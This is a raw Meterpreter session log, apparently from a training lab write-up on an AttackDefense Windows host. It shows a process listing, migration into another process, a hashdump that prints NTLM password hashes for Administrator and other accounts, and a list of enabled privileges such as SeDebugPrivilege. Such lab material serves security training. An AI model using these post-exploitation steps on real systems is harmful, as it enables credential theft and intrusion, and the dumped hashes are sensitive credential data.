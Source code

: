 ```
 4048  768   svchost.exe              x64   0
 4092  768   svchost.exe              x64   0
 4176  1464  CompatTelRunner.exe
 4240  976   ShellExperienceHost.exe  x64   1        ATTACKDEFENSE\Administrator  C:\Windows\SystemApps\ShellExperienceHost_cw5n1h2txyewy\ShellExperienceHost.exe
 4336  2508  cmd.exe
 4348  976   SearchUI.exe             x64   1        ATTACKDEFENSE\Administrator  C:\Windows\SystemApps\Microsoft.Windows.Cortana_cw5n1h2txyewy\SearchUI.exe
 4424  976   RuntimeBroker.exe        x64   1        ATTACKDEFENSE\Administrator  C:\Windows\System32\RuntimeBroker.exe
 4436  4176  conhost.exe
 4544  976   RuntimeBroker.exe        x64   1        ATTACKDEFENSE\Administrator  C:\Windows\System32\RuntimeBroker.exe
 4836  976   RuntimeBroker.exe        x64   1        ATTACKDEFENSE\Administrator  C:\Windows\System32\RuntimeBroker.exe
 4900  768   vds.exe                  x64   0
 4956  768   msdtc.exe                x64   0

meterpreter > migrate 3640
[*] Migrating from 2508 to 3640...
[*] Migration completed successfully.
meterpreter > hashdump
Administrator:500:aad3b435b51404eeaad3b435b51404ee:5c4d59391f656d5958dab124ffeabc20:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
student:1008:aad3b435b51404eeaad3b435b51404ee:bd4ca1fbe028f3c5066467a7f6a73b0b:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:58f8e0214224aebc2c5f82fb7cb47ca1:::
meterpreter > getprivs

Enabled Process Privileges
==========================

Name
----
SeBackupPrivilege
SeChangeNotifyPrivilege
SeCreateGlobalPrivilege
SeCreatePagefilePrivilege
SeCreateSymbolicLinkPrivilege
SeDebugPrivilege
SeImpersonatePrivilege
SeIncreaseBasePriorityPrivilege
SeIncreaseQuotaPrivilege
SeIncreaseWorkingSetPrivilege
SeLoadDriverPrivilege
SeManageVolumePrivilege
SeProfileSingleProcessPrivilege
SeRemoteShutdownPrivilege
SeRestorePrivilege
SeSecurityPrivilege
SeShutdownPrivilege
SeSystemEnvironmentPrivilege
SeSystemProfilePrivilege
SeSystemtimePrivilege
SeTakeOwnershipPrivilege
SeTimeZonePrivilege
SeUndockPrivilege

meterpreter >
```